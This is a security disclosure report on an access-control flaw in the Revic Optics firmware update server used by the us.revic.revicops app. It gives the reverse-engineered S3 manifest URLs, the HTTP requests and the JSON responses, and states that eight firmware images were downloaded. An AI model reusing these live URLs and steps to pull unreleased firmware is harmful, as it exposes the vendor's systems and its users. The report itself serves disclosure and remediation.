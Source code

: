 # Vulnerability Report - us.revic.revicops- Incorrect Access Control

**Product:** `us.revic.revicops` 

**Vendor:** [Revic Optics](https://www.revicoptics.com/)

**Version:** 1.12.5

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `us.revic.revicops` , developed by **Revic Optics**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `str3` String value in the `UpdateActivity` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003195447185](https://s2.loli.net/2024/10/03/8ojxJPisQKq3pWG.png)

   ![image-20241003200037194](https://s2.loli.net/2024/10/03/8WK2CLkbqFwhsHe.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://s3-us-west-2.amazonaws.com/internalrelease/fw/firmware.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: s3-us-west-2.amazonaws.com
   Content-Length: 0
   Content-Type: text/plain
   
   ```

   ```http
   GET https://s3-us-west-2.amazonaws.com/externalrelease/fw/firmware.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: s3-us-west-2.amazonaws.com
   Content-Length: 0
   Content-Type: text/plain
   
   ```

   

   > Response:

   ```http
   HTTP/1.1 200 OK
   x-amz-id-2: Ryx26PSx+JrTv+oMywuNBvT/ZWetvFEdYr5X/NO5QCms34iJH/Uq/3ejSKDNVBzHd32g2vXqwRk=
   x-amz-request-id: CKK9N3MMTPH1N2KB
   Date: Thu, 03 Oct 2024 11:44:29 GMT
   Last-Modified: Tue, 13 Aug 2024 12:14:45 GMT
   ETag: "ebe47d79fb059fa7d65ed0bc62c68091"
   x-amz-server-side-encryption: AES256
   x-amz-version-id: wAo2s_yqVXT5I1kDSIeVZYBSj0scjWNp
   Accept-Ranges: bytes
   Content-Type: application/json
   Server: AmazonS3
   Content-Length: 1623
   
   [
     {
       "virgin" : "virgin.bin",
       "released" : "pmr_scope_fw2.bin",
       "temp" : "temp.bin",
       "selftest" : "self.bin",
       "android" : "previous.bin",
       "filename" : "pmr_scope_fw.bin",
       "dfu" : "RVC_BLE_DFU.zip",
       "version" : 6,
       "type" : "debug"
     },
     {
       "pmr"  : {
         "virgin" : "virgin.bin",
         "previous" : "pmr_scope_fw2.bin",
         "temp" : "temp.bin",
         "selftest" : "self.bin",
         "android" : "previous.bin",
         "filename" : "pmr_scope_fw.bin",
         "version" : 10
       },
   ......
   ```

   ```http
   HTTP/1.1 200 OK
   x-amz-id-2: iRfgdgVbcheGk1wWoQKij3vLfBH5gIFkw1aqhn/VNHew26iim8BD9ugDeTlZCa6GgcVUqdgBQVs=
   x-amz-request-id: M4XCJBF0AZSGQBWA
   Date: Thu, 03 Oct 2024 11:40:56 GMT
   Last-Modified: Fri, 03 May 2024 16:29:45 GMT
   ETag: "02d220ad4bf9ca352def4ece5fb5c70f"
   x-amz-server-side-encryption: AES256
   x-amz-version-id: IaaaTNykIIKvDI_1HljpOjS26ueL_KNu
   Accept-Ranges: bytes
   Content-Type: application/json
   Server: AmazonS3
   Content-Length: 754
   
   [
     {
       "filename": "pmr_scope_fw.bin",
       "version": 10
     },
     {
       "pmr"  : {
         "filename" : "pmr_scope_fw.bin",
         "version" : 10
       },
       "pmr2" : {
         "package" : "Gen2_OTA_2024_0325_0910_108_38_17.zip",
         "previous" : "Gen2_OTA_2023_0420_0955_18_11_5.zip",
         "filename" : "pmr2_scope_fw.bin",
         "fwVer" : 1,
         "batt" : "pmr2_batt_fw.bin",
         "battVer" : 1,
         "ble" : "pmr2_ble_dfu.zip",
         "bleVer" : 1,
         "version" : "G2.38.108.17"
       },
   ......
   ```

   And then, by combining the `filename, selftest, virgin` fields' value with the `baseurl` above, we could download the firmware directly.

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003195943228](https://s2.loli.net/2024/10/03/gYTHr7b39G61wxS.png)
   
   In total, we successfully downloaded **8 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.